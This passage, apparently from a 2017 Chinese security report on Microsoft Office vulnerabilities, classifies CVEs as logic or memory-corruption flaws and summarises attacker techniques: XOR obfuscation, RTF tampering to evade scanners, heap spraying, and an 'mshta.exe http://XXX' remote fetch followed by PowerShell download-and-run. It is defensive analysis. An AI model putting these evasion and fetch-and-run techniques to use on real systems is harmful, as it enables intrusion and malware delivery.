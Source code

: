 <td width="105">**CVE-2017-11882**</td><td width="123">公式编辑器中的栈溢出漏洞</td><td width="110">embedi</td><td width="110">无</td><td width="105">Cobalt，APT34</td>
<td width="105">**CVE-2017-11826**</td><td width="123">OOXML解析器中的类型混淆漏洞</td><td width="110">奇虎360</td><td width="110">被某APT组织利用</td><td width="105">不详</td>

同时，对 Office 漏洞做下分类总结：
- 逻辑型漏洞
CVE-2017-0199 为典型的逻辑漏洞，微软对其采取了“COM Activation Filter”修补机制，仅仅是封锁 “htafile”对象和 “script”对象的方法。CVE-2017-8570 借助其他 CLSID对象便可绕过。CVE-2017-8759 为 wsdl 的 xml 处理不当引起的逻辑漏洞，未能考虑到包含 CRLF 序列数据的情况。soap:address location内容有可能存在换行符，导致注释指令“//”只对第一行生效，其余则作为有效代码正常执行。
- 内存破坏型漏洞
CVE-2017-0262，CVE-2017-11292 和 CVE-2017-11826 都是类型混淆漏洞，攻击者可以利用该漏洞改变执行流程，将值控制到操作数的堆栈上。CVE-2017-11882 为栈溢出漏洞。EQNEDT32.EXE 在 17年前编译后再未更改，当时没有采取任何漏洞缓解措施，导致该漏洞利用难度低且通杀各个版本 office。

攻击手法的总结：
- 混淆
许多安全产品依然无法对已知漏洞进行完全防护。攻击者常常利用一些混淆技术，来绕过安全软件的检测。例如在 CVE2017-0262中 EPS 利用文件通过一个简单的 XOR 混淆，以十六进制字符串形式进行存放。使用的密钥 0xc45d6491 放于头部，而 exec 被解密的缓存所调用。对于流行的 RTF 文档攻击，一些安全软件通常无法正确分类 RTF 文件格式并扫描 RTF 中嵌入的 OLE 文档。修改 RTF 文件的“`{`\ rtN”字段，使部分工具无法正确检测文件类型，或者利用一些被 office 忽略的特殊字符，如“.`}`”’、“`{`”’，第三方分析器可能会将这些字符识别为数据的结尾并截断 OLE。
- 堆喷
堆喷是很常见的内存布局技巧，用来控制 EIP。在 CVE2017-11826的利用样本中，包含的一个 OLE 对象用来做堆喷。但是这种利用方法并不稳定，且耗时比较长，在不同环境下利用效果具有差异性。Office 2013 版本以后将没有开启 ASLR 的 dll 强制地址随机化，那么在高版本中，这种利用方法更难成功。
- HTA 和 Powershell
攻击者常常利用漏洞从远程获取恶意软件或者攻击负载，使得安全软件和沙箱难以准确地检测这些攻击行为。这种情况最常见的手法是利用带有“mshta.exe http://XXX”的命令，从远程服务器上拉取 hta 文件执行其中 VB 脚本，如果加载其他恶意软件的话，可以利用 VB 调用 powershell 的 DownloadFile;StartProcess的方式进行执行。这种攻击手法不仅减小了攻击文件的体积，并且避免了可利用内存不足的情况。

Office 安全问题不只有其自身的漏洞，其他漏洞在 Office 情境下的利用我们也需要注意。从 2017 年初至今，以 CVE-2017-0199 为代表，针对 Office 进行的漏洞攻击明显增长。CVE2017-0262，CVE–2017–8759等多个漏洞已经被利用到实际攻击中。根据今年几个 Office 漏洞的特点，我们相信在未来一段时间，使用 CVE-2017-0199，CVE-2017-11882 的攻击，依然会持续。

## 参考

[https://www.mdsec.co.uk/2017/04/exploiting-cve-2017-0199-hta-handler-vulnerability/](https://www.mdsec.co.uk/2017/04/exploiting-cve-2017-0199-hta-handler-vulnerability/)

[https://securelist.com/blackoasis-apt-and-new-targeted-attacks-leveraging-zero-day-exploit/82732/](https://securelist.com/blackoasis-apt-and-new-targeted-attacks-leveraging-zero-day-exploit/82732/)

[https://github.com/MerStara/awesome-cve-poc](https://github.com/MerStara/awesome-cve-poc)

[https://portal.msrc.microsoft.com/zh-cn/security-guidance](https://portal.msrc.microsoft.com/zh-cn/security-guidance)

[https://www.anquanke.com/post/id/87154](https://www.anquanke.com/post/id/87154)

[https://www.anquanke.com/post/id/87000](https://www.anquanke.com/post/id/87000)

[https://www.anquanke.com/post/id/86833](https://www.anquanke.com/post/id/86833)

[https://www.anquanke.com/post/id/86582](https://www.anquanke.com/post/id/86582)

[https://www.anquanke.com/post/id/86848](https://www.anquanke.com/post/id/86848)

[https://www.anquanke.com/post/id/87026](https://www.anquanke.com/post/id/87026)

[https://www.anquanke.com/post/id/86063](https://www.anquanke.com/post/id/86063)

完整报告下载：[https://cert.360.cn/static/files/2017%E5%B9%B4%E5%BA%A6%E5%AE%89%E5%85%A8%E6%8A%A5%E5%91%8A–Office.pdf](https://cert.360.cn/static/files/2017%E5%B9%B4%E5%BA%A6%E5%AE%89%E5%85%A8%E6%8A%A5%E5%91%8A--Office.pdf)
